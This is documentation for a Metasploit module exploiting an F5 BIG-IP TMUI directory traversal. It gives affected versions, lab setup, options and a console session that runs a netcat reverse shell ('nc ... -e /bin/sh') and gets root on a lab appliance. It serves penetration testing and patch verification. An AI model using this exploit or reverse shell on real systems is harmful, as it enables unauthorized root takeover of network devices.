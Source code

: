 ## Vulnerable Application

### Description

This module exploits a directory traversal in F5's BIG-IP Traffic
Management User Interface (TMUI) to upload a shell script and execute
it as the root user.

Versions 11.6.1-11.6.5, 12.1.0-12.1.5, 13.1.0-13.1.3, 14.1.0-14.1.2,
15.0.0, and 15.1.0 are known to be vulnerable. Fixes were introduced
in 11.6.5.2, 12.1.5.2, 13.1.3.4, 14.1.2.6, and 15.1.0.4.

Tested on the VMware OVA release of 14.1.2.

### Setup

Download
[BIGIP-14.1.2-0.0.37.ALL-scsi.ova](https://downloads.f5.com/esd/serveDownload.jsp?path=/big-ip/big-ip_v14.x/14.1.2/english/virtual-edition/&sw=BIG-IP&pro=big-ip_v14.x&ver=14.1.2&container=Virtual-Edition&file=BIGIP-14.1.2-0.0.37.ALL-scsi.ova)
and import it into your desired virtualization software.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### WritableDir

Set this to a writable directory in which files will be dropped.
Defaults to `/tmp`.

## Scenarios

### F5 BIG-IP 14.1.2 in VMware Fusion

```
msf5 > use exploit/linux/http/f5_bigip_tmui_rce
[*] Using configured payload cmd/unix/reverse_netcat_gaping
msf5 exploit(linux/http/f5_bigip_tmui_rce) > options

Module options (exploit/linux/http/f5_bigip_tmui_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_netcat_gaping):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf5 exploit(linux/http/f5_bigip_tmui_rce) > set rhosts 172.16.249.176
rhosts => 172.16.249.176
msf5 exploit(linux/http/f5_bigip_tmui_rce) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf5 exploit(linux/http/f5_bigip_tmui_rce) > run

[+] nc 172.16.249.1 4444 -e /bin/sh
[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target is running BIG-IP 14.1.2.
[*] Creating alias list=bash
[+] Successfully created alias list=bash
[*] Executing Unix Command for cmd/unix/reverse_netcat_gaping
[*] Executing command: nc 172.16.249.1 4444 -e /bin/sh
[*] Uploading /tmp/lxoQO9DPOSpDiF8rP5yNfc4dVo67qsckbdaNc3ES3
[+] Successfully uploaded /tmp/lxoQO9DPOSpDiF8rP5yNfc4dVo67qsckbdaNc3ES3
[*] Executing /tmp/lxoQO9DPOSpDiF8rP5yNfc4dVo67qsckbdaNc3ES3
[*] Command shell session 1 opened (172.16.249.1:4444 -> 172.16.249.176:44736) at 2020-07-06 18:05:24 -0500
[+] Deleted /tmp/lxoQO9DPOSpDiF8rP5yNfc4dVo67qsckbdaNc3ES3
[*] Deleting alias list=bash
[+] Successfully deleted alias list=bash

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
uname -a
Linux localhost.localdomain 3.10.0-514.26.2.el7.ve.x86_64 #1 SMP Wed Aug 7 08:16:38 PDT 2019 x86_64 x86_64 x86_64 GNU/Linux
```
